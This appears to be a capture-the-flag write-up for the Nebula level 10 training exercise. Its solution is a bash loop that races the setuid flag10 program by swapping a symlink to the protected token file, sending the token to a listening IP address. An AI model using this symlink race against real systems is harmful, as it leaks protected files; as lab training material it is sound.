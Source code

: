 .. _nebula10:

.. role:: bash(code)
    :language: bash
		     
Nebula level 10
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level10/

Solution
--------

Put this on a file and execute it

.. code-block:: bash

   #!/bin/bash
   CONT=0.00001
   INC=0.00001

   while true; do
       cd /home/flag10
       ln -sf /home/level10/x /home/level10/y
       ./flag10 /home/level10/y 192.168.57.1 &
       sleep ${CONT}
       ln -sf /home/flag10/token /home/level10/y #| grep -v exist
       echo  "Voy en " ${CONT}
       CONT=$(awk "BEGIN {print ($CONT+$INC)}")
       sleep 2
   done
